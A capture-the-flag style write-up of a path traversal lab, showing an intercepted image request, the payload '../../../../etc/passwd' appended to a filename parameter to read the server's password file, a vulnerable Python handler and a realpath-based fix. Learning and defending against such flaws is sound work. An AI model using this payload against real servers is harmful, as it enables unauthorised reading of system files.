


---

- **Target:** Path Traversal Lab - validation of start of path
- **Author:** sonyahack1
- **Date:** 05.05.2025

---

> The vulnerability contains in the display of product images
> i open any product card and open its image in new tab




## Intercepting card image request

> intercepting:

```html 

GET /image?filename=/var/www/images/56.jpg HTTP/1.1
Host: 0ae2008403efa174810c7ea700620009.web-security-academy.net
Cookie: session=EKufU2azefi5yozD*******************
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae2008403efa174810c7ea700620009.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

```

> I need to extract the contents of the file **/etc/passwd** . I see that the value of the parameter **filename** is the full path to the image on the server.
> at the end of this path I use **../../../../etc/passwd** to go up a few levels and read the file **/etc/passwd**


```html

GET /image?filename=/var/www/images/../../../../etc/passwd HTTP/2

```

> The thing is that **Path Traversal** is a vulnerability in which we manipulate paths in the URL in order to force the server to read or execute
> any files that it should not. If the server does not have correct normalization or validation of user input at the software level
> then such characters as **../** at the software level will be perceived as part of the path in the value of the **filename** parameter and the server will process
> such a path. First, it will execute the first part and go through **/var/www/images** then go up several levels (as if returning to the beginning)
> and go to the **/etc** directory to read the final **passwd** file specified in the path.

> As a result, I get the contents of the **/etc/passwd** file


> In simple terms, this vulnerability exists due to poor interpretation of the full path for the parameter.
> it might look something like this:

```python

def get_file(request):
    filename = request.GET['filename']
    filepath = "/var/www/images/" + filename
    with open(filepath, 'rb') as f:
        return f.read()

```

> If I pass **../../../../etc/passwd** to the parameter value the server will simply add it to the end path **/var/www/images**
> The result is **/var/www/images/../../../../etc/passwd**.

> **Note:** for example, this can be fixed with the following code:

```python

from os.path import realpath, commonprefix

base_path = "/var/www/images/"
requested_path = realpath(base_path + filename)

if not requested_path.startswith(realpath(base_path)):
    raise Exception("Path Traversal detected!")

```

---


